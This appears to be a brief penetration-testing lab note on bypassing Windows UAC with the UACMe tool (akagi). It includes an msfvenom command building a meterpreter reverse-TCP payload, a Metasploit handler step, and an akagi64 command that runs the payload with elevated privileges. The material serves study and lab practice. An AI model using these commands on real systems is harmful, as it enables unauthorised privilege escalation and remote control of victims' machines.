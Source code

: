 UACMe is the tool we plan to use for this.

https://github.com/hfiref0x/UACME

Can be used to escalate priveleges or change a user's password by bypassing UAC.

Requires a user account that is already a user in the local administrator's group. UAC has verious integrity levels from Low to High. Programs can be executed with elevated privs without prompting the use for confirmation.

UAC depends on the version of windows, and the level of integrity applied to UAC.

UACMe is a tool and list of resources that can be used to bypass UAC. We will be using primarily akagi32

**Practical notes**

Confirm you are in local administrators group.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.addr LPORT=1337 -f exe > shell.exe

use multi/handler ( specify the payload you chose with msfvenom )

.\akagi64.exe ( number ) c:\Temp\shell.exe

NOTE FROM LABS: Always try to upgrade your shell to 64 bit on 64 bit computers.

